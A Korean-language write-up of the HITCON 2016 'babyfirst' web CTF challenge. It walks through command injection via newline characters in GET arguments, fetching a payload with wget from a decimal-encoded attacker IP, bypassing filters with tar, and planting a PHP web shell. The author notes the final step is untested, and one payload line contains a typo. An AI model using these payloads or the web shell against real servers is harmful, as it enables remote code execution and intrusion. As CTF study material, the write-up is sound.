

============================================================================================================
[2016_hitcon] [WEB] babyfirst
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?args[]=a%0a&args[]=touch&args[]=test",arrowhead="normal"];
        step3 -> step2[label="test file create",arrowhead="normal"];
        step4 -> step5[label="index.php?args[]=a%0a&args[]=wget&args[]=3232235536",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
============================================================================================================

- GET 페이지 취약점
- GET 파라미터: args
- preg_match

.. code-block:: php

    <?php
        highlight_file(__FILE__);
        $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
        if ( !file_exists($dir) )
            mkdir($dir);
        chdir($dir);
        $args = $_GET['args'];
        for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
        }
        exec("/bin/orange" . implode(" ", $args));
    ?>

|

Array 취약점
============================================================================================================

- args[]에 문자열 이외에는 값을 입력하지 못하도록 preg_match를 걸어놨습니다.
- args[] 문자열 끝에 %0a(LF)를 넣을 수 있습니다.
- touch 명령어로 파일 생성을 할 수 있습니다.

.. code-block:: console
    
    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=touch&
    args[]=test

    [실제 백엔드 동작]
    /bin/orange a%0a
    touch test

|

wget을 통한 우회
============================================================================================================

- wget으로 ip를 10진수 형식으로 변환해서 다운로드를 진행합니다.  (여기서 로컬 테스트라고 가정해서 192.168.0.16=>3232235536으로 설정했습니다.)

.. code-block:: text

    ※ ip를 10진수로 바꿔야 하는 이유?

    코드를 보시면 아시겠지만 문자열을 제외한 모든 입력에 대해 제한이 걸려있기 때문에 .을 쓸 수가 없습니다. 그렇기 때문에 10진수로 바꿔서 wget을 진행합니다.

- 외부 접속이 가능한 ip에 웹 서버를 구축하고, index.php 파일을 하나 만들어 올립니다.

.. code-block:: php

    <?php
        print shell_exec($_GET["cmd"]);
    ?>
 
- 그리고 wget으로 해당 ip(10진수)를 지정해주면 해당 파일이 sandbox/ip/ 폴더에 저장됩니다.

.. code-block:: console

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=wget&
    args[]=3232235536

    [실제 백엔드 동작]
    /bin/orange a%0a
    wget 3232235536

- 여기서부터 또 하나 관문에 부딫혔습니다. wget을 쓸 경우 index.html로 고정되어 다운로드 된다는 점입니다. 

.. code-block:: text
    
    ※ wget으로 다운로드 시 index.html로 고정되면 안되는 이유?

    html 페이지로는 쉘을 실행할 수 없기 때문에 php 코드로 저장이 가능해야 합니다.
 

|

tar를 통한 우회
============================================================================================================

- 그렇다면 대시(-)나 점(.)을 쓰지 않고 우회할 수 있는 리눅스 쉘 명령을 실행하는 방법이 뭐가 있을까요? (라이트업을 보니 wget 대신 busybox ftpget, twistd telnet 을 쓴 것도 있네요.) 
- php 소스가 있는 index.html을 새로 생성한 폴더에 다운로드한 후, 그 폴더를 tar를 통해 점이 없는 파일로 압축해서 점(.)을 우회하도록 합니다.

**index.html**

.. code-block:: bash
    
    <?
    phpfile_put_contents('shell.php', '    <?php    print shell_exec($_GET["cmd"]);    ?>');
    ?>

.. code-block:: text

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=mkdir&
    args[]=exploit%0a&
    args[]=cd&
    args[]=exploit%0a&
    args[]=wget&
    args[]=3232235536%0a&
    args[]=tar&
    args[]=cvf&
    args[]=archived&
    args[]=exploit%0a&
    args[]=php&
    args[]=archived

    /bin/orange a%0a
    mkdir exploit%0a
    cd exploit%0a
    wget 3232235536%0a
    tar cvf archived exploit%0a
    php archived

- 결국 대쉬(-)도 안쓰고 점(.)도 안쓰고 php 명령을 실행해서 shell.php 파일을 만들어내는군요.
- 테스트는 안해봤지만 아마 다음과 같이 쉘 명령을 실행할 수 있을 것으로 보입니다.

.. code-block:: bash

    http://52.68.245.164/sandbox/local_ip/shell.php?cmd=ls

|
